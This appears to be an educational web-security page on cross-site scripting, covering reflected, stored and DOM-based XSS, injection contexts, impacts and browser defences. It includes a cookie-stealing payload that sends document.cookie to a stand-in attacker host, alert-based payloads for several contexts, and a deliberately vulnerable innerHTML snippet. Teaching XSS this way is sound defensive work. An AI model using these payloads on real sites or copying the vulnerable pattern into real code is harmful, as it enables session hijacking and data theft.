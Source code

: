 ```yaml
---
title: XSS Fundamentals
description: Understanding the core concepts and types of Cross-Site Scripting attacks
---
```




Cross-Site Scripting (XSS) attacks are a type of injection vulnerability where malicious scripts are injected into trusted websites. Understanding the fundamental concepts of XSS is essential for both identifying vulnerabilities and implementing effective defenses.

## Types of XSS Attacks

<Tabs defaultValue={"reflected"} className={"pt-5 pb-1"}>
  <TabsList>
    <TabsTrigger value={"reflected"}>Reflected XSS</TabsTrigger>
    <TabsTrigger value={"stored"}>Stored XSS</TabsTrigger>
    <TabsTrigger value={"dom"}>DOM-based XSS</TabsTrigger>
  </TabsList>
  <TabsContent value={"reflected"}>
    ### Reflected XSS
    
    Reflected XSS occurs when malicious script is reflected off a web server, such as in search results, error messages, or any other response that includes some or all of the input sent to the server as part of the request. Reflected XSS is non-persistent and typically requires a victim to click on a specially crafted link.
    
    **Example Attack Flow:**
    1. Attacker creates a malicious URL with embedded JavaScript
    2. Victim clicks on the link (often via phishing)
    3. The server reflects the script in its response
    4. The victim's browser executes the script
    
    ```
    https://vulnerable-site.com/search?query=\<script\>fetch('https://attacker.com/steal?cookie='+document.cookie)\</script\>
    ```
  </TabsContent>
  <TabsContent value={"stored"}>
    ### Stored XSS
    
    Stored XSS (also known as persistent XSS) occurs when malicious script is stored on the target server, such as in a database, message forum, comment field, or visitor log. The victim's browser will execute the script when it retrieves the stored data from the server.
    
    **Example Attack Flow:**
    1. Attacker submits malicious script via a form that stores data
    2. The script is saved in the database
    3. When other users view the affected page, the script executes in their browsers
    
    **Common Targets:**
    - Comment sections
    - User profiles
    - Product reviews
    - Forum posts
  </TabsContent>
  <TabsContent value={"dom"}>
    ### DOM-based XSS
    
    DOM-based XSS occurs when the vulnerability exists in client-side code rather than server-side code. The attack payload is executed as a result of modifying the DOM environment in the victim's browser.
    
    **Example Attack Flow:**
    1. Page contains JavaScript that processes data from an unsafe source (like URL parameters)
    2. The script modifies the DOM without proper sanitization
    3. Malicious content is inserted into the page
    
    ```javascript
    // Vulnerable code example
    const username = new URLSearchParams(window.location.search).get('user');
    document.getElementById('greeting').innerHTML = 'Hello, ' + username;
    
    // Attack URL
    // https://vulnerable-site.com/page?user=\<img src="x" onerror="alert(1)"\>
    ```
  </TabsContent>
</Tabs>

<Callout type={"info"} title={"Key Distinction"}>
  The main difference between the three types of XSS is where the payload is stored and how it's delivered to the victim. Reflected XSS requires user interaction with a malicious link, stored XSS affects anyone who views the compromised page, and DOM-based XSS executes through client-side JavaScript manipulation.
</Callout>

## XSS Attack Vectors

XSS attacks can be delivered through various vectors:

- **HTML Context**: Injecting script tags or event handlers
  ```html
  <script>alert('XSS')</script>
  \<body onload="alert('XSS')"\>
  ```

- **JavaScript Context**: Breaking out of existing JavaScript
  ```javascript
  ';alert('XSS');//
  ```

- **Attribute Context**: Escaping from HTML attributes
  ```html
  " onmouseover="alert('XSS')"
  ```

- **URL Context**: Exploiting javascript: protocol
  ```html
  \<a href="javascript:alert('XSS')"\>Click me\</a\>
  ```

- **CSS Context**: Exploiting expression() in older IE browsers
  ```css
  \<style\>body {background-image:url("javascript:alert('XSS')")\}\</style\>
  ```

## Execution Contexts

Understanding the context in which your payload will be executed is crucial for crafting effective XSS attacks:

### HTML Context

When user input is inserted directly into the HTML body, attackers can inject complete HTML tags including script tags, event handlers, or iframe elements.

**Example:**
```html
<div>User input: [INJECTION POINT]</div>
```

**Payload:**
```html
<script>alert(document.cookie)</script>
```

### HTML Attribute Context

When user input is placed within HTML attributes, attackers need to escape the attribute before injecting malicious code.

**Example:**
```html
\<input type="text" value={"[INJECTION POINT]"}\>
```

**Payload:**
```
" onmouseover="alert(document.cookie)" x="
```

### JavaScript Context

When user input is embedded within JavaScript code, attackers need to terminate existing JavaScript statements before injecting their own code.

**Example:**
```html
<script>
  var username = '[INJECTION POINT]';
  document.write('Welcome, ' + username);
</script>
```

**Payload:**
```
';alert(document.cookie);//
```

### URL Context

When user input is placed in URL parameters or as part of a URL, attackers can use the javascript: protocol.

**Example:**
```html
\<a href="[INJECTION POINT]"\>Click here\</a\>
```

**Payload:**
```
javascript:alert(document.cookie)
```

## Impact of XSS Vulnerabilities

XSS vulnerabilities can lead to several serious security issues:

- **Session Hijacking**: Stealing user cookies to impersonate them
- **Credential Theft**: Capturing login credentials via fake forms
- **Data Exfiltration**: Stealing sensitive information from the page
- **Site Defacement**: Modifying the appearance of the website
- **Malware Distribution**: Redirecting users to malicious downloads
- **Network Scanning**: Using the victim's browser to scan internal networks
- **Crypto Mining**: Running cryptocurrency miners in the victim's browser

<Callout type={"warning"} title={"Same-Origin Policy"}>
  XSS attacks are particularly dangerous because they bypass the Same-Origin Policy (SOP). Since the malicious script executes in the context of the vulnerable website, it has access to that site's cookies, session tokens, and other sensitive information.
</Callout>

## Browser Security Mechanisms

Modern browsers implement several security mechanisms to mitigate XSS attacks:

- **Content Security Policy (CSP)**: Restricts which scripts can execute
- **HttpOnly Cookies**: Prevents JavaScript from accessing cookies
- **X-XSS-Protection**: Built-in XSS filtering (deprecated in modern browsers)
- **Iframe Sandboxing**: Restricts iframe capabilities
- **Subresource Integrity**: Ensures resources haven't been tampered with

Understanding these protections and how they can be bypassed is essential for comprehensive XSS testing.

In the next section, we'll explore techniques for identifying XSS vulnerabilities in web applications.
